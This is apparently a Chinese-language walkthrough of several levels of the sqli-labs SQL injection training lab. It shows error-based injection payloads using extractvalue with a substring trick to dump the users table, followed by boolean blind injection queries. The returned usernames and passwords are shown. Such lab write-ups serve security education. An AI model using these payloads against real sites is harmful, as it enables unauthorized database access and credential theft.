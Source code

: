 看看回显位

`?id=-1' union select 1,2,3--+`

坏了不回显，那么UNION注入不能使用，我们要使用报错注入，这里使用extractvalue函数

`?id=1' and extractvalue(1,concat(0x7e,(select database()))) --+`

返回

`XPATH syntax error: '~security'`

继续爆表
```
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(username ,id , password) from users))) --+
```

返回只有`XPATH syntax error: '~Dumb1Dumb,Angelina2I-kill-you,D'`,extractvalue和updatexml的报错返回会有32字符的长度限制，这严重影响我们的信息获取

所以我们可以使用substring延长，语法

`SUBSTRING(str, pos, len)`

str：源字符串

pos：开始位置（从1开始计数）

len：提取的字符数（可选）

`?id=1' and extractvalue(1,concat(0x7e,(select substring(group_concat(username ,id , password),25,30) from users))) --+`

从第25个字符往后再显示30个字符

返回

`XPATH syntax error: '~l-you,Dummy3p@ssword,secure4cr'`

### 第六关

判断后发现是`"`闭合，之后跟前面没什么区别

### 第七关

想判断类型，发现没有回显和报错，好吧，那就布尔盲注

使用`?id=1 AND 1=1`和`?id=1 AND 1=2`页面呈现两种状态，布尔可以用

接下来老生常谈

```
?id=1 and ascii(substr((select database()),1,1))>=100 --+
?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>=100 --+
?id=1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() limit 0,1),1,1))>=100 --+
?id=1 and ascii(substr((select username from users limit 0,1),1,1))>=100 --+
```

